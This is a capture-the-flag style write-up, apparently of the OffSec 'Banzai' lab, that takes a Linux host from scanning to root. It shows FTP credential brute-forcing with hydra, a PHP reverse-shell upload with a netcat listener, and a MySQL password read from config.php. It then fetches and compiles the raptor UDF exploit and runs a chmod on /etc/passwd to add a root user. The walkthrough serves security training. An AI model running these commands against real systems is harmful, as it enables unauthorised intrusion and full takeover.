



# Network Enumeration

```bash
┌──(aaron㉿aacai)-[~/Desktop/Script/nmapAutomator]
└─$ sudo nmap -p21,22,25,5432,8080,8295 -A -Pn 192.168.241.56 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-11 06:52 +0330
Nmap scan report for 192.168.241.56
Host is up (0.26s latency).

PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 ba:3f:68:15:28:86:36:49:7b:4a:84:22:68:15:cc:d1 (RSA)
|   256 2d:ec:3f:78:31:c3:d0:34:5e:3f:e7:6b:77:b5:61:09 (ECDSA)
|_  256 4f:61:5c:cc:b0:1f:be:b4:eb:8f:1c:89:71:04:f0:aa (ED25519)
25/tcp   open  smtp       Postfix smtpd
| ssl-cert: Subject: commonName=banzai
| Subject Alternative Name: DNS:banzai
| Not valid before: 2020-06-04T14:30:35
|_Not valid after:  2030-06-02T14:30:35
|_ssl-date: TLS randomness does not represent time
|_smtp-commands: banzai.offseclabs.com, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8
5432/tcp open  postgresql PostgreSQL DB 9.6.4 - 9.6.6 or 9.6.13 - 9.6.19
| ssl-cert: Subject: commonName=banzai
| Subject Alternative Name: DNS:banzai
| Not valid before: 2020-06-04T14:30:35
|_Not valid after:  2030-06-02T14:30:35
|_ssl-date: TLS randomness does not represent time
8080/tcp open  http       Apache httpd 2.4.25
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.25 (Debian)
8295/tcp open  http       Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Banzai
```


# General Enumeration

## PostgreSQL

```bash
┌──(aaron㉿aacai)-[~/Desktop/Script]
└─$ psql -U postgres -h 192.168.241.56 
psql: error: connection to server at "192.168.241.56", port 5432 failed: FATAL:  no pg_hba.conf entry for host "192.168.45.238", user "postgres", database "postgres", SSL on
connection to server at "192.168.241.56", port 5432 failed: FATAL:  no pg_hba.conf entry for host "192.168.45.238", user "postgres", database "postgres", SSL off

```

## Port 8080

```bash
┌──(aaron㉿aacai)-[~/Desktop/Script]
└─$ feroxbuster --url "http://192.168.241.56:8080"                                 

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.241.56:8080
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      281c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
[####################] - 4m     30000/30000   0s      found:0       errors:111    
[####################] - 4m     30000/30000   114/s   http://192.168.241.56:8080/    
```


## Port 8295

```bash
┌──(aaron㉿aacai)-[~/Desktop/Script]
└─$ feroxbuster --url "http://192.168.241.56:8295" 

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.241.56:8295
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────  
200      GET        1l       10w       56c http://192.168.241.56:8295/css/scss-files.txt
200      GET      982l     1978w    16407c http://192.168.241.56:8295/css/style.css
200      GET        2l      247w     7083c http://192.168.241.56:8295/lib/jquery/jquery-migrate.min.js
200      GET       10l       83w     4474c http://192.168.241.56:8295/lib/superfish/superfish.min.js
200      GET        7l      158w     9028c http://192.168.241.56:8295/lib/waypoints/waypoints.min.js
200      GET        7l       27w     3309c http://192.168.241.56:8295/img/apple-touch-icon.png
200      GET        6l       56w     2515c http://192.168.241.56:8295/img/logo.png
200      GET        1l       38w     2303c http://192.168.241.56:8295/lib/easing/easing.min.js
200      GET      200l      342w    22038c http://192.168.241.56:8295/img/portfolio/logo2.jpg
200      GET      118l      332w     3375c http://192.168.241.56:8295/contactform/contactform.js
301      GET        9l       28w      320c http://192.168.241.56:8295/js => http://192.168.241.56:8295/js/
200      GET       11l      188w    16964c http://192.168.241.56:8295/lib/animate/animate.min.css
200      GET        7l      877w    67742c http://192.168.241.56:8295/lib/bootstrap/js/bootstrap.bundle.min.js
200      GET      143l      803w    91498c http://192.168.241.56:8295/img/portfolio/web1.jpg
200      GET      166l     1054w    88673c http://192.168.241.56:8295/img/team-2.jpg
200      GET      207l     1063w    83769c http://192.168.241.56:8295/img/team-4.jpg
200      GET      248l     1411w   123085c http://192.168.241.56:8295/img/team-1.jpg
200      GET        4l     1298w    86659c http://192.168.241.56:8295/lib/jquery/jquery.min.js
200      GET      215l     1450w   144764c http://192.168.241.56:8295/img/portfolio/card1.jpg
200      GET      130l      270w     4060c http://192.168.241.56:8295/js/main.js
200      GET        4l       66w    31000c http://192.168.241.56:8295/lib/font-awesome/css/font-awesome.min.css
200      GET      392l     2209w   177523c http://192.168.241.56:8295/lib/font-awesome/fonts/fontawesome-webfont.woff
200      GET     1452l     5977w   212322c http://192.168.241.56:8295/lib/font-awesome/fonts/fontawesome-webfont.ttf
200      GET     1452l     5979w   212524c http://192.168.241.56:8295/lib/font-awesome/fonts/fontawesome-webfont.eot
200      GET      288l     1759w   139600c http://192.168.241.56:8295/lib/font-awesome/fonts/fontawesome-webfont.woff2
200      GET     2574l     4782w   258854c http://192.168.241.56:8295/lib/font-awesome/fonts/FontAwesome.otf
301      GET        9l       28w      321c http://192.168.241.56:8295/img => http://192.168.241.56:8295/img/
200      GET     2337l     3940w    37414c http://192.168.241.56:8295/lib/font-awesome/css/font-awesome.css
200      GET        9l       23w      847c http://192.168.241.56:8295/img/favicon.png
200      GET       71l      279w    21410c http://192.168.241.56:8295/img/portfolio/logo3.jpg
200      GET      323l      468w    24007c http://192.168.241.56:8295/img/portfolio/logo1.jpg
200      GET      225l     1389w   122824c http://192.168.241.56:8295/img/team-3.jpg
200      GET      169l      901w    78304c http://192.168.241.56:8295/img/about-img.jpg
200      GET      136l      573w    62724c http://192.168.241.56:8295/img/portfolio/web3.jpg
200      GET      121l      593w    58551c http://192.168.241.56:8295/img/portfolio/app2.jpg
200      GET      429l     2132w   210731c http://192.168.241.56:8295/img/hero-bg.jpg
200      GET     2671l    62869w   444379c http://192.168.241.56:8295/lib/font-awesome/fonts/fontawesome-webfont.svg
200      GET      135l      843w    91442c http://192.168.241.56:8295/img/portfolio/card2.jpg
200      GET      181l      977w   107224c http://192.168.241.56:8295/img/portfolio/app3.jpg
200      GET      163l      818w    87433c http://192.168.241.56:8295/img/portfolio/web2.jpg
200      GET      158l      848w     7078c http://192.168.241.56:8295/lib/superfish/hoverIntent.js
200      GET       10l       55w     2404c http://192.168.241.56:8295/lib/counterup/counterup.min.js
200      GET        3l      148w     8159c http://192.168.241.56:8295/lib/wow/wow.min.js
200      GET      261l     1606w   176065c http://192.168.241.56:8295/img/portfolio/app1.jpg
200      GET      108l      651w    72368c http://192.168.241.56:8295/img/portfolio/card3.jpg
200      GET      276l      764w     7558c http://192.168.241.56:8295/lib/superfish/superfish.js
200      GET      542l     1651w    17059c http://192.168.241.56:8295/lib/wow/wow.js
200      GET     1579l     2856w    25427c http://192.168.241.56:8295/lib/animate/animate.css
200      GET        7l     1513w   144877c http://192.168.241.56:8295/lib/bootstrap/css/bootstrap.min.css
200      GET      587l     1571w    23315c http://192.168.241.56:8295/
200      GET        7l      567w    48944c http://192.168.241.56:8295/lib/bootstrap/js/bootstrap.min.js
200      GET      168l      960w     4092c http://192.168.241.56:8295/lib/easing/easing.js
200      GET        2l       17w      152c http://192.168.241.56:8295/contactform/Readme.txt
200      GET     1221l     7104w   566615c http://192.168.241.56:8295/img/call-to-action-bg.jpg
200      GET     8975l    17530w   178152c http://192.168.241.56:8295/lib/bootstrap/css/bootstrap.css
301      GET        9l       28w      329c http://192.168.241.56:8295/contactform => http://192.168.241.56:8295/contactform/
[####################] - 3m     30141/30141   0s      found:58      errors:9      
[####################] - 3m     30000/30000   163/s   http://192.168.241.56:8295/ 
[####################] - 1s     30000/30000   51903/s http://192.168.241.56:8295/css/ => Directory listing
[####################] - 6s     30000/30000   5087/s  http://192.168.241.56:8295/lib/ => Directory listing
[####################] - 6s     30000/30000   5338/s  http://192.168.241.56:8295/lib/easing/ => Directory listing
[####################] - 6s     30000/30000   5336/s  http://192.168.241.56:8295/lib/bootstrap/ => Directory listing
[####################] - 7s     30000/30000   4415/s  http://192.168.241.56:8295/lib/bootstrap/css/ => Directory listing
[####################] - 6s     30000/30000   5350/s  http://192.168.241.56:8295/contactform/ => Directory listing
[####################] - 1s     30000/30000   54645/s http://192.168.241.56:8295/lib/font-awesome/ => Directory listing
[####################] - 1s     30000/30000   54250/s http://192.168.241.56:8295/js/ => Directory listing
[####################] - 3s     30000/30000   9208/s  http://192.168.241.56:8295/lib/font-awesome/fonts/ => Directory listing
[####################] - 2s     30000/30000   17162/s http://192.168.241.56:8295/lib/font-awesome/css/ => Directory listing
[####################] - 4s     30000/30000   7296/s  http://192.168.241.56:8295/img/ => Directory listing
[####################] - 2s     30000/30000   19737/s http://192.168.241.56:8295/img/portfolio/ => Directory listing
[####################] - 1s     30000/30000   52448/s http://192.168.241.56:8295/lib/superfish/ => Directory listing
[####################] - 1s     30000/30000   35800/s http://192.168.241.56:8295/lib/animate/ => Directory listing
[####################] - 1s     30000/30000   26293/s http://192.168.241.56:8295/lib/bootstrap/js/ => Directory listing
[####################] - 1s     30000/30000   54446/s http://192.168.241.56:8295/lib/jquery/ => Directory listing
[####################] - 1s     30000/30000   53667/s http://192.168.241.56:8295/lib/wow/ => Directory listing
[####################] - 1s     30000/30000   53957/s http://192.168.241.56:8295/lib/waypoints/ => Directory listing
[####################] - 1s     30000/30000   54545/s http://192.168.241.56:8295/lib/counterup/ => Directory listing 
```

Can't find any useful path to login or execute.

## Port 21

Anonymous is not useful, try `hydra` to brute force.

```bash
┌──(aaron㉿aacai)-[~/Desktop/Script]
└─$ hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 192.168.241.56 ftp
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-11 07:06:26
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries, ~5 tries per task
[DATA] attacking ftp://192.168.241.56:21/
[21][ftp] host: 192.168.241.56   login: admin   password: admin
```

`admin:admin` is useful credential.


# Initial Footholder

```bash
┌──(aaron㉿aacai)-[~/Desktop/Script]
└─$ ftp 192.168.241.56                             
Connected to 192.168.241.56.
Name (192.168.241.56:aaron):admin
331 Please specify the password.
Password: 
230 Login successful.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> dir
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 1001     0            4096 May 26  2020 contactform
drwxr-xr-x    2 1001     0            4096 May 26  2020 css
drwxr-xr-x    3 1001     0            4096 May 26  2020 img
-rw-r--r--    1 1001     0           23364 May 27  2020 index.php
drwxr-xr-x    2 1001     0            4096 May 26  2020 js
drwxr-xr-x   11 1001     0            4096 May 26  2020 lib
226 Directory send OK.
```

We can login to ftp with user admin, then we find the path that locate at a web path, can see the `img` `css` `js` folder in here, also find `index.php`, so try to upload the php rev shell to img folder.



```bash
┌──(aaron㉿aacai)-[~/Desktop/Script]
└─$ mousepad php-reverse-shell.php 
                                                                                                               
┌──(aaron㉿aacai)-[~/Desktop/Script]
└─$ ftp 192.168.241.56            
Connected to 192.168.241.56.
220 (vsFTPd 3.0.3)
Name (192.168.241.56:aaron): admin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> cd img
250 Directory successfully changed.
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
200 EPRT command successful. Consider using EPSV.
150 Ok to send data.
100% |******************************************************************|  5496       84.53 MiB/s    00:00 ETA
226 Transfer complete.
5496 bytes sent in 00:00 (10.61 KiB/s)
ftp> 

```

Put rev shell to this folder, then we can see rev file on `img` folder.



Then get rev shell.



# PE

## Information Collection

```bash
═══════════════════════════════╣ Basic information ╠═══════════════════════════════                                                       
                               ╚═══════════════════╝                                                                                      
OS: Linux version 4.9.0-12-amd64 (debian-kernel@lists.debian.org) (gcc version 6.3.0 20170516 (Debian 6.3.0-18+deb9u1) ) #1 SMP Debian 4.9.210-1 (2020-01-20)
User & Groups: uid=33(www-data) gid=33(www-data) groups=33(www-data)
Hostname: banzai
Writable folder: /dev/shm
[+] /bin/ping is available for network discovery (linpeas can discover hosts, learn more with -h)
[+] /bin/bash is available for network discovery, port scanning and port forwarding (linpeas can discover hosts, scan ports, and forward ports. Learn more with -h)                                                                                                                 
[+] /bin/nc is available for network discovery & port scanning (linpeas can discover hosts and scan ports, learn more with -h)  

══════════════════════════════╣ System Information ╠══════════════════════════════                                                        
                              ╚════════════════════╝                                                                                      
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits                                                        
Linux version 4.9.0-12-amd64 (debian-kernel@lists.debian.org) (gcc version 6.3.0 20170516 (Debian 6.3.0-18+deb9u1) ) #1 SMP Debian 4.9.210-1 (2020-01-20)
Distributor ID: Debian
Description:    Debian GNU/Linux 9.12 (stretch)
Release:        9.12
Codename:       stretch

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                                           
Sudo version 1.8.19p1 

╔══════════╣ Users with console
banzai:x:1000:1000:Banzai,,,:/home/banzai:/bin/bash                                                                                       
postgres:x:111:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
root:x:0:0:root:/root:/bin/bash

╔══════════╣ All users & groups
uid=0(root) gid=0(root) groups=0(root)                                                                                                    
uid=1(daemon[0m) gid=1(daemon[0m) groups=1(daemon[0m)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=100(systemd-timesync) gid=102(systemd-timesync) groups=102(systemd-timesync)
uid=1000(banzai) gid=1000(banzai) groups=1000(banzai),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
uid=1001(admin) gid=1001(admin) groups=1001(admin)
uid=101(systemd-network) gid=103(systemd-network) groups=103(systemd-network)
uid=102(systemd-resolve) gid=104(systemd-resolve) groups=104(systemd-resolve)
uid=103(systemd-bus-proxy) gid=105(systemd-bus-proxy) groups=105(systemd-bus-proxy)
uid=104(_apt) gid=65534(nogroup) groups=65534(nogroup)
uid=105(Debian-exim) gid=109(Debian-exim) groups=109(Debian-exim)
uid=106(messagebus) gid=110(messagebus) groups=110(messagebus)
uid=107(sshd) gid=65534(nogroup) groups=65534(nogroup)
uid=108(ftp) gid=113(ftp) groups=113(ftp)
uid=109(mysql) gid=114(mysql) groups=114(mysql)
uid=110(postfix) gid=115(postfix) groups=115(postfix)
uid=111(postgres) gid=117(postgres) groups=117(postgres),112(ssl-cert)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=41(gnats) gid=41(gnats) groups=41(gnats)
uid=5(games) gid=60(games) groups=60(games)
uid=6(man) gid=12(man) groups=12(man)
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=9(news) gid=9(news) groups=9(news)


╔══════════╣ Useful software
/usr/bin/base64                                                                                                                           
/usr/bin/gcc
/bin/nc
/bin/nc.traditional
/bin/netcat
/usr/bin/perl
/usr/bin/php
/bin/ping
/usr/bin/python
/usr/bin/python2
/usr/bin/python2.7
/usr/bin/python3
/usr/bin/sudo
/usr/bin/wget


╔══════════╣ MySQL version
mysql  Ver 14.14 Distrib 5.7.30, for Linux (x86_64) using  EditLine wrapper                                                               


═╣ MySQL connection using default root/root ........... No
═╣ MySQL connection using root/toor ................... No                                                                                
═╣ MySQL connection using root/NOPASS ................. No                                                                                
                                                                                                                                          
╔══════════╣ Searching mysql credentials and exec
From '/etc/mysql/mysql.conf.d/mysqld.cnf' Mysql user: user=root                                                                           
Found readable /etc/mysql/my.cnf
!includedir /etc/mysql/conf.d/
!includedir /etc/mysql/mysql.conf.d/


╔══════════╣ Analyzing PostgreSQL Files (limit 70)
Version: psql (PostgreSQL) 9.6.17                                                                                                         

-rw-r----- 1 postgres postgres 4641 Jun  5  2020 /etc/postgresql/9.6/main/pg_hba.conf

-rw-r--r-- 1 postgres postgres 22716 Jun  5  2020 /etc/postgresql/9.6/main/postgresql.conf
log_timezone = 'America/New_York'
stats_temp_directory = '/var/run/postgresql/9.6-main.pg_stat_tmp'
datestyle = 'iso, mdy'
timezone = 'America/New_York'
default_text_search_config = 'pg_catalog.english'
-rw-r--r-- 1 root root 176 Nov 12  2019 /usr/lib/tmpfiles.d/postgresql.conf
d /var/run/postgresql 2775 postgres postgres - -
d /var/log/postgresql 1775 root postgres - -

╔══════════╣ Searching folders owned by me containing others files on it (limit 100)
-rw-r--r--  1 admin root 23364 May 27  2020 index.php                                                                                     
-rw-r--r-- 1 admin root 135 May 26  2020 /var/www/config.php
drwxr-xr-x  2 admin root  4096 May 26  2020 contactform
drwxr-xr-x  2 admin root  4096 May 26  2020 css
drwxr-xr-x  2 admin root  4096 May 26  2020 js
drwxr-xr-x  3 admin root  4096 Aug 10 23:46 img
drwxr-xr-x 11 admin root  4096 May 26  2020 lib
total 44

```

We can check the `/var/www/config.php` to get mysql's password

```bash
cat /var/www/config.php
<?php
define('DBHOST', '127.0.0.1');
define('DBUSER', 'root');
define('DBPASS', 'EscalateRaftHubris123');
define('DBNAME', 'main');
?>
```

Try to login.

```bash
www-data@banzai:/tmp$ mysql -uroot -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 7
Server version: 5.7.30 MySQL Community Server (GPL)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
mysql> exit
Bye

```

We can login MySQL with the password as root, try to use udf PE. 

The PE source file can use :

[MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)](https://www.exploit-db.com/exploits/1518)

or

[MySQL 4.0.17 (Linux) - User-Defined Function (UDF) Dynamic Library (1)](https://www.exploit-db.com/exploits/1181)

Compile the udf c file

```bash
ww-data@banzai:/tmp$ wget 192.168.45.238:22/raptor_udf2.c
www-data@banzai:/tmp$ gcc -g -c raptor_udf2.c
gcc -g -c raptor_udf2.c
www-data@banzai:/tmp$ ls                                                          
raptor_udf2.c  raptor_udf2.o
www-data@banzai:/tmp$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
<,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
www-data@banzai:/tmp$ ls
ls
raptor_udf2.c  raptor_udf2.o  raptor_udf2.so

```

Then login to mysql and perform following steps.

```mysql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/dev/shm/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
select * from mysql.func;
select do_system('chmod 777 /etc/passwd');
```

At the first that's normally to running commands.

```mysql
www-data@banzai:/tmp$ mysql -uroot -p
Welcome to the MySQL monitor.  Commands end with ; or \g.
mysql> use mysql;
use mysql;
Database changed
mysql> create table foo(line blob);
Query OK, 0 rows affected (0.01 sec)

mysql> insert into foo values(load_file('/tmp/raptor_udf2.so'));
Query OK, 1 row affected (0.00 sec)

mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
Query OK, 1 row affected (0.00 sec)

mysql> create function do_system returns integer soname 'raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
ERROR 1126 (HY000): Can't open shared library 'raptor_udf2.so' (errno: 11 /usr/lib/mysql/plugin/raptor_udf2.so: file too short)

```

But when I want to create function that say file too short, I searched on the google, maybe is the file permission. I tried use `chmod` locally but not useful, then I was tried use the ftp to change permission, finally that's work.

```bash
┌──(aaron㉿aacai)-[~/Desktop/Script/mysql]
└─$ gcc -g -c raptor_udf2.c                                                      
                                                                                                               
┌──(aaron㉿aacai)-[~/Desktop/Script/mysql]
└─$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
                                                                                                               
┌──(aaron㉿aacai)-[~/Desktop/Script/mysql]
└─$ ls
raptor_udf2.c  raptor_udf2.o  raptor_udf2.so
                                                                                                               
┌──(aaron㉿aacai)-[~/Desktop/Script/mysql]
└─$ ftp 192.168.241.56
Connected to 192.168.241.56.

ftp> user admin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> put raptor_udf2.so
local: raptor_udf2.so remote: raptor_udf2.so
200 EPRT command successful. Consider using EPSV.
ch150 Ok to send data.
ftp> chmod 777 raptor_udf2.so
200 SITE CHMOD command ok.
ftp> exit
221 Goodbye.

```

Then try again to use UDF PE.

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/banzai]
└─$ sudo nc -lvnp 22
listening on [any] 22 ...
connect to [192.168.45.238] from (UNKNOWN) [192.168.241.56] 58692

www-data@banzai:/var/www/html$ ls
ls
contactform  css  img  index.php  js  lib  raptor_udf2.so
www-data@banzai:/var/www/html$ pwd
pwd
/var/www/html

```

We can see the `so` file is in `/var/www/html`, so connect to `mysql` again.

```mysql
mysql> use mysql;
use mysql;
Database changed
mysql> create table foo(line blob);
Query OK, 0 rows affected (0.02 sec)

mysql> insert into foo values(load_file('/var/www/html/raptor_udf2.so'));
Query OK, 1 row affected (0.00 sec)

mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
Query OK, 1 row affected (0.01 sec)

mysql> create function do_system returns integer soname 'raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
Query OK, 0 rows affected (0.00 sec)

mysql> select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+
1 row in set (0.00 sec)

mysql> select do_system('chmod 777 /etc/passwd');
+------------------------------------+
| do_system('chmod 777 /etc/passwd') |
+------------------------------------+
|                                  0 |
+------------------------------------+


```

Finally that's work, right now we can create the user on this machine, then get root permission.

```bash
www-data@banzai:/var/www/html$ openssl passwd aaron
iNw1w7ZwlvoYw
www-data@banzai:/var/www/html$ echo "aaron2:iNw1w7ZwlvoYw:0:0::/root/:/bin/bash" >> /etc/passwd
www-data@banzai:/var/www/html$ su aaron2
Password: aaron
root@banzai:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)
root@banzai:/var/www/html# cat /root/proof.txt
ed9406a4dce49f83e3d61e476c75c8f2
```

